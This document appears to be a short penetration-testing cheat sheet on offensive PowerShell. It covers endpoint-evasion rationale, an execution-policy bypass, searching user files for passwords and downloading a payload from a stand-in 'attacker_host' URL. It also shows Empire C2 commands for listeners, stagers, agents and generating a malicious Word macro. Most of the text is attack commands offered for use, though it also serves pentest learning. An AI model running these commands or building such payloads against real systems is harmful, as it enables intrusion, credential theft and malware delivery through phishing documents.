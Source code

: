 ### PowerShell 4 Pentesters
#### 1.1 Intro
Why PowerShell?  
Run, download or execute code, entirely within the memory process of the powershell executable
letting penetration testers evade endpoint security solutions.  
Living-off-the-Land = using tools that are likely already "trusted" on system

Location  
32bit: C:\windows\system32\WindowsPowershell\*  
64bit: C:\windows\SysWOW64\WindowsPowerShell\*  

C:\> powershell.exe -ExecutionPolicy Bypass ./script.ps1

_1.1.1 Useful Cmdlets_   
//PS = PowerShell 
```
Get-Process
PS C:\> Get-Process chrome,firefox | Sort-Object -Unique | Format-List Path,Id //Get information about specific processes and paths to their executables.
PS C:\> Get-Process -Name "firefox" | Kill //Kills any firefox processes

Get-WmiObject
PS C:\> Get-WmiObject -class win32_operatingsystem | select -Property * //All information related to current operating system
PS C:\> Get-WmiObject -class win32_operatingsystem |Sort-Object -Unique PathName | fl Pathname //Paths to all service executables

Finding Files
PS C:\> Select-String -Path C:\users\christian\Documents\*.txt -Pattern pass* //Search for files of txt extension in user's 
Documents directory containing the string "pass"
PS C:\> Get-Content C:\users\christian\Documents\passwords.txt //Display full contents of file
PS C:\> Get-ChildItem C:\PowerShell\ | Where-Object {$_.Name -match “xls”} //List contents of directory and return files with string in their name (xls)
PS C:\> Get-Service //Lists all services

New-Object
PS C:\> $webclient = New-Object System.Net.WebClient
PS C:\> $payload_url = "https://attacker_host/payload.exe"
PS C:\> $file = "C:\ProgramData\payload.exe"
PS C:\> $webclient.DownloadFile($payload_url,$file)

//Use .NET system class to download a file to a target system. Where the $file variable is location where payload is saved. 

```
_1.1.2 Modules_
```
PS C:\> Get-Module //List all currently imported modules
PS C:\> Import-Module ./module.psm1 //Import module into current PS session

Modules need to be copied into the module path, specified by the PS environment variable, to find these paths:
PS C:\> $Env:PSModulePath

PowerSploit Module
//Download PowerSploit archive, extract it and copy its contents into chosen module directory into folder called "PowerSploit"
PS C:\> Import-Module PowerSploit
PS C:\> Get-Command -Module PowerSploit //list all PowerSploit associated cmdlets
PS C:\> Get-Help Write-HihackDLL //Get help and usage for a specific cmdlet
```
#### 1.2 Offensive PowerShell
Empire PowerShell Framework
```
Basics/Server-Side Commands
listeners //lists listeners
uselistener //select listener to use
info //listener options
//Generate SSL certificate for listener, run cert.sh script in Empire setup folder.

usestager //available stagers to choose
usestager multi/launcher
set Listener http
//Copy & paste generated payload into compromised C shell, to active agent.

agents //lists available agents
interact agentID //interact with selected agent

Empire: AgentID> shell whoami / shell whoami /GROUPS
usemodule //lists modules 
searchmodule <keyword> ex. check //lists all modules that match check

Client-Side
Usestager windows/macro //Generate macro code for embedding in Word document 
Set Listener http
Set OutFile /root/Tools/Empire/data/macro
Execute //Macro code will be saved to directory
//Open Visual Basic editor in MS Word and paste generated macro code, save file as .doc
```

